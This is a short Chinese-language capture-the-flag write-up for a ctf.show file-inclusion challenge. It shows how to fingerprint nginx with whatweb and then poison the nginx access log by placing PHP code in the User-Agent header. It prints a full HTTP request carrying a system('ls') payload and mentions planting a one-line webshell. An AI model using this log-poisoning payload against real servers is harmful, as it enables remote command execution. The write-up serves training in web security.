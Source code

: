 <figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

这次不止过滤了php，还过滤了data，所以得用日志包含，我们现在需要知道这个用的什么框架。我们可以用linux的whatweb指令

```sh
whatweb http://ed2a102a-36b7-4969-b43f-eac4d7abef51.challenge.ctf.show/ 
```

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

可以从上面看到有nginx，nginx在linux下面的日志目录在/var/log/nginx/access.log中，并且会包含user-agent和路径。

我们需要向这个文件中写入我们的php代码，比如查看一下源代码或者写入一句话木马。这里我选择执行指令。

```http
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: ed2a102a-36b7-4969-b43f-eac4d7abef51.challenge.ctf.show
User-Agent: <?php system('ls');?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1



```
